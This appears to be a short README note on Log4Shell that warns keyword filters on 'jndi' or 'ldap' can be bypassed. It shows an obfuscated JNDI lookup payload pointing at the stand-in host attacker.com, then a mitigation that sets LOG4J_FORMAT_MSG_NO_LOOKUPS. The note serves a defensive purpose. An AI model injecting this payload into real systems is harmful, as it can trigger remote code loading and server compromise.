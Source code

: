 # Log4Shell notes

If you're filtering on "ldap", "jndi", or the ${lower:x} method, I have bad news for you:

`${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}`

This gets past every filter I've found so far. There's no shortage of these bypasses.

Block the log4j zero day...

`echo "export LOG4J_FORMAT_MSG_NO_LOOKUPS=true" >> /etc/profile.d/blockzero.sh`
